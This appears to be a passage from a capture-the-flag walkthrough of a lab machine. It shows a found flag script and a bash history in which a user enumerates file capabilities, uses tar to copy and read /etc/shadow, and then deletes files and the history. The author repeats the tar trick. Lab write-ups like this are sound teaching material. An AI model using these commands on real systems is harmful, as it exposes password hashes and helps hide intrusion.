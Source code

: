 ```
4 -rw-r--r-- 1 test test  168 Dec  2 17:55 .wget-hsts
test@mini:~$ cat .ssh/sshscript.sh 
#!/bin/bash
echo "FInally you got a shell ! Here's a flag for you  <FLAG>. Let's see  where you go from here"
test@mini:~$ cat .bash_history 
su kuya
getcap -r / 2>/dev/null
/sbin/getcap -r / 2>/dev/null
tar -cvf shadow.tar /etc/shadow
/sbin/getcap -r / 2>/dev/null
tar -cvf shadow.tar /etc/shadow
/sbin/getcap -r / 2>/dev/null
tar -cvf shadow.tar /etc/shadow
/sbin/getcap -r / 2>/dev/null
tar -cvf shadow.tar /etc/shadow
ls
tar -xvf shadow.tar 
ls -alh
tar -xvf shadow.tar 
cd etc
ls
cat shadow 
cd ..
ls
rm -rf *.*
ls
ls
ls
rm -rf *.*
ls
rm -rf etc
ls
ls -lah
rm -rf .bash_history 
rm -rf .nano/
ls
exit

```

Another flag. Let's keep going. The Bash history is interesting because it wasn't cleared, and the user appears to be using tar to create archives of files he normally shouldn't have permissions to read. Let's try those commands.

```
$ tar -cvf shadow.tar /etc/shadow
tar: Removing leading `/' from member names
/etc/shadow
$ tar -xvf shadow.tar
etc/shadow
```

